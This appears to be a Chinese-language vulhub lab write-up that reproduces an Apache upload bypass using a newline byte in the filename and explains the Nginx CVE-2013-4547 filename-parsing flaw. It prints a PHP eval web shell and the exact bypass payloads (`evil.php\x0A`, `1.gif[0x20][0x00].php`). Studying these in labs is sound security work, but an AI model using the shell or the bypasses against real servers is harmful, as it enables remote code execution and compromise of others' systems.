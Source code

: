 #### 漏洞复现

启动漏洞环境

![](https://gitee.com/YatJay/image/raw/master/img/202203011023294.png)

![](https://gitee.com/YatJay/image/raw/master/img/202203011025297.png)

准备`shell.php`文件

```php
<?php 
    @eval($_POST['shell']);
    phpinfo();
?>
```

上传一个名为`shell.php`的文件，POST提交参数name值为`evil.php`，被拦截：

![](https://gitee.com/YatJay/image/raw/master/img/202203011027731.png)

在上述POST提交的文件名`evil.php`后面插入一个`\x0A`（注意，不能是`\x0D\x0A`，只能是一个`\x0A`，可使用十六进制数据格式修改添加），不再拦截：

![](https://gitee.com/YatJay/image/raw/master/img/202203011029808.png)

访问刚才上传的`IP:8080/evil.php%0a`，发现能够成功解析，但这个文件不是php后缀，说明目标存在解析漏洞：

![](https://gitee.com/YatJay/image/raw/master/img/202203011032726.png)

### Nginx 文件名逻辑漏洞(CVE-2013-4547) ——vulhub

#### 漏洞

影响版本： Nginx 0.8.41 ~ 1.4.3 / 1.5.0 ~ 1.5.7  

这个漏洞其实和代码执行没有太大关系，其主要原因是错误地解析了请求的URI，错误地获取到用户请求的文件名，导致出现权限绕过、代码执行的连带影响。

举个例子，比如，Nginx匹配到.php结尾的请求，就发送给fastcgi进行解析，常见的写法如下：

```
location ~ \.php$ {
    include        fastcgi_params;

    fastcgi_pass   127.0.0.1:9000;
    fastcgi_index  index.php;
    fastcgi_param  SCRIPT_FILENAME  /var/www/html$fastcgi_script_name;
    fastcgi_param  DOCUMENT_ROOT /var/www/html;
}
```

正常情况下（关闭pathinfo的情况下），只有.php后缀的文件才会被发送给fastcgi解析。

而存在CVE-2013-4547的情况下，我们请求`1.gif[0x20][0x00].php`，这个URI可以匹配上正则`\.php$`，可以进入这个Location块；但进入后，Nginx却错误地认为请求的文件是`1.gif[0x20]`，就设置其为`SCRIPT_FILENAME`的值发送给fastcgi。

fastcgi根据`SCRIPT_FILENAME`的值进行解析，最后造成了解析漏洞。

